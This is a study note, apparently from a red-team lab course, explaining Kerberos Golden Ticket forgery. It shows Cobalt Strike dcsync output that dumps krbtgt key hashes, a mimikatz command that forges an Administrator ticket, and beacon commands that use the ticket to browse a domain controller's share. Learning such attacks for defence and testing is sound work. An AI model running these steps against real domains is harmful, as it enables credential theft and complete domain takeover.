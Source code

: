 ```yaml
---
creation date: September 26th 2022
last modified date: September 26th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Golden Ticket]]  
___

## Description:  

A Golden Ticket is a forged TGT, signed by the domain's krbtgt account. Whereas a Silver Ticket can be used to impersonate any user, it's limited to either that single service or to any service but on a single machine. A Golden Ticket can be used to impersonate any user, to any service, on any machine in the domain; and to add insult to injury - the underlying credentials are never changed automatically. For that reason, the `krbtgt` NTLM/AES is probably the single most powerful secret you can obtain (and is why you see it used in dcsync examples so frequently).

```
beacon> dcsync dev.cyberbotic.io DEV\krbtgt

[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 2/19/2021 1:31:57 PM
Object Security ID   : S-1-5-21-3263068140-2042698922-2891547269-502
Object Relative ID   : 502

[...snip...]

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa
      aes128_hmac       (4096) : 473a92cc46d09d3f9984157f7dbc7822
      des_cbc_md5       (4096) : b9fefed6da865732
```

Now make the golden ticket
```
mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /aes256:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /ticket:golden.kirbi
User      : Administrator
Domain    : dev.cyberbotic.io (DEV)
SID       : S-1-5-21-3263068140-2042698922-2891547269
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa - aes256_hmac
Lifetime  : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM
-> Ticket : golden.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

To use it:

```
beacon> make_token DEV\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\golden.kirbi
beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 11:11:35   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     05/18/2021 10:23:49   fe1c92f2af2eb37e7af4463c8a4ea7
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 09:40:04   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/17/2021 13:22:43   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/25/2021 10:23:35   Shares
          dir     02/19/2021 11:49:20   System Volume Information
          dir     03/25/2021 10:27:55   Users
          dir     05/17/2021 18:55:39   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 850mb    fil     05/25/2021 08:52:07   pagefile.sys

beacon> rev2self
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 26th 2022 (12:54 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
